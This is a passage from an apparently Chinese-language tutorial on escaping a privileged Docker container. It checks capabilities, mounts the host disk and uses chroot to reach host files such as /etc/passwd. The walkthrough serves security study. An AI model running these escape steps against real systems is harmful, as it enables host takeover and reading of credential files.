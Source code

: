 
在启动后我们会进入到docker容器的bash中，在这里我们查看当前主机的docker是否为特权模式启动。`cat /proc/self/status | grep Cap`

![image-20231008151112952](Docker逃逸.assets/image-20231008151112952.png)


我们可以将宿主机目录挂载到该docker容器中，首先查看当前磁盘分区情况，获得宿主机分区`fdisk -l `

![image-20231008151120168](Docker逃逸.assets/image-20231008151120168.png)

这里我们根据分区大小得知到宿主机的磁盘为/dev/dm-0，这时可以直接挂载宿主机的磁盘

`mkdir tide`
`mount /dev/dm-0 /tide/`
`chroot /tide/`

![image-20231008151137407](Docker逃逸.assets/image-20231008151137407.png)


这时我们会进入一个bash会话，在这里可以查看宿主机的/etc/passwd等敏感文件
